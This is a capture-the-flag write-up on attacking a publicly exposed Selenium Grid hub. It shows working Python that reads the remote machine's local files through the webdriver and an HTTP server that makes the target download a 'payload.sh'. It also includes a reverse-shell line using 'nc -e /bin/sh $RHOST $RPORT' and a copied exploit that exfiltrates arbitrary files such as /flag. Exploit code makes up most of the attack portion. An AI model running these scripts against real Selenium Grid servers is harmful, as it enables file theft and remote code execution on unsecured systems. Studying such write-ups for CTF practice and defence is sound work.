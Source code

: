# Web - SelNode (460)

## Challenge

We are given a Selenium Grid website, which is used for allowing other users to connect to the remote Webdriver and do typical Selenium stuff, like web scraping or any kind of automated website activity.

It was pretty difficult to figure out how to get stuff working haha and encountered plenty of errors just connecting.

The basic way of interacting with the challenge is to connect a remote webdriver instance to the challenge server and do stuff with it, like going to various websites, or even reading local files using the `file://` protocol.

This is the base code of interacting with the server

```python
from time import sleep
from selenium import webdriver


options = webdriver.ChromeOptions()
options.add_argument("--no-sandbox"); #this line will save you a very time-wasting error
driver = webdriver.Remote(
   command_executor='http://challs.nusgreyhats.org:12323/wd/hub',
   options=options,
)
driver.get("file:///")
print(driver.page_source)
with open('a.html', 'w') as f:
    f.write(driver.page_source)
driver.close()
```

With this we can get read files on the system, but there's a problem. In order to read the flag, we need to run the `/flag` binary

![index](../images/selnode-1.png)

We can read regular text files on the system but navigating to the path of the binary will prompt the browser to download the file instead. Interestingly, we can manipulate the default download directory of the remote web driver, so I was able to move binary files around the system (not that it helped), by using

```python
preferences = {
    "download.default_directory": '/home/seluser/Downloads',
    "directory_upgrade": True,
    "safebrowsing.enabled": True
}
options.add_experimental_option("prefs", preferences)
```

Here's a cheeky screenshot of the files I moved around to the downloads directory
![moved](../images/selnode-2.png)

But the problem is that I still couldn't run or downlaod the binary.

I tried some various other methods, and was even able to get the server to download my own payloads into their system (as can be seen from the `payload` and `Unconfirmed Chrome Downloads` in the above screenshot). (CVE-2016-10624)

This was done by running a `http` server with `ngrok` and getting the webdriver to visit your server

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

local = '.'
suffix = '/payload'
download = f"<a href='{local+suffix}' download='payload' id='raw-url'>Download</a>"
class S(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

    def _set_headers_b(self):
        self.send_response(200)
        self.send_header("Content-type", "binary/octet-stream")
        self.end_headers()

    def _html(self, message):
        """This just generates an HTML document that includes `message`
        in the body. Override, or re-write this do do more interesting stuff.
        """
        content = f"<html><body><h1>{message}</h1></body></html>"
        return content.encode("utf8")  # NOTE: must return a bytes object!

    def do_GET(self):

        if self.path == '/download':
            self._set_headers()
            self.wfile.write(self._html(download))
        if self.path == '/payload':
            self._set_headers_b()
            with open('./payload.sh', 'rb') as file:
                self.wfile.write(file.read()) # Read the file and send the contents

def run(server_class=HTTPServer, handler_class=S, addr="127.0.0.1", port=8000):
    server_address = (addr, port)
    httpd = server_class(server_address, handler_class)

    print(f"Starting httpd server on {addr}:{port}")
    httpd.serve_forever()
run()
```

After getting the payload file into the `/Downloads` directory, the exploit was meant to trigger the binary payload using the `binary_location` parameter, which is typically used for running the chrome-driver from non-standard locations. However it kept erroring out and the reverse shell couldn't work (would love to figure out why / how other people managed to get RCE)

```python
options.binary_location = '/home/seluser/Downloads/payload'
```

Other dead ends I tried were

- opening an `xhr` to my server and sending the file over, but couldn't figure out a way to actually reading the actual `flag` binary.
- directly giving myself reverse shell through python

```
options.binary_location = '/usr/bin/python3'
options.args = ["-cimport os;os.system('nc -e /bin/sh $RHOST $RPORT)"]
```

In the end, I just stumbled upon the github repo [here](https://github.com/JonStratton/selenium-node-takeover-kit/blob/master/examples/selenium_node_download.py) that was basically the full exploit. Typically, a browser cannot read local files without user interaction (otherwise all browsers can just read all the files on your local computer), i.e. having the user actually upload their file. However we can mimic all the necessary interaction by creating a file input HTML with id of `f` on the page and using `driver.find_element_by_id('f').send_keys(remote_file)` where `remote_file` is the file we would like to read. From there we can just download the file off the server. I was too lazy to actually run the binary (wasn't on a Linux machine) , so I just ran `strings ans | grep grey` to get the flag

## Solution (literally copy paste from github)

```python
# https://github.com/JonStratton/selenium-node-takeover-kit/blob/master/examples/selenium_node_download.py
import base64, getopt, sys
from selenium import webdriver
from selenium.webdriver.remote.file_detector import UselessFileDetector

def get_file_contents(driver, remote_file):
    " A simple file input plus some FileReader js to store file contents in 'inf' "
    decoded_contents = None
    try:
        driver.get('data:text/html;charset=utf-8,<html><input id=f type=file onchange="rf(event)"><script>var inf; var rf = function(e) { var inp = e.target; var read = new FileReader(); read.onload = function(){inf = read.result;}; read.readAsDataURL(inp.files[0]);}</script></html>')
        driver.find_element_by_id('f').send_keys(remote_file) # Load local file into input field (and therefor "inf")
        js_return = driver.execute_script('return(inf)')   # Dump the contents of "inf"
        if js_return:
            try:
                decoded_contents = base64.b64decode(js_return.split(',')[1])
            except:
                print('Cannot Decode: %s' % js_return)
        else:
            print('Cannot Read: %s' % remote_file)
    except:
        print('Doesnt Exist: %s' % remote_file)
    return decoded_contents

if __name__ == '__main__':
    hub_url, remote_file, local_file, browser = 'http://challs.nusgreyhats.org:12323/wd/hub', '/flag', './ans', 'chrome'

    options = webdriver.ChromeOptions()
    options.add_argument("--no-sandbox");
    preferences = {"download.default_directory": '/home/seluser/Downloads' ,
                    "directory_upgrade": True,
                    "safebrowsing.enabled": True }
    options.add_experimental_option("prefs", preferences)
    driver = webdriver.Remote( command_executor=hub_url, options=options )
    driver.file_detector = UselessFileDetector()

    try:
        file_contents = get_file_contents(driver, remote_file)
        if local_file:
            f = open(local_file, 'w+b')
            f.write(file_contents)
            f.close()
        else:
            print(file_contents.decode('ascii'))
    finally:
        driver.quit()
    sys.exit(0)
```

## Flag

```
grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}
```

## Useful Resource

- https://nutcrackerssecurity.github.io/selenium.html
- https://nvd.nist.gov/vuln/detail/CVE-2016-10624
- https://github.com/JonStratton/selenium-node-takeover-kit/blob/master/examples/selenium_node_download.py
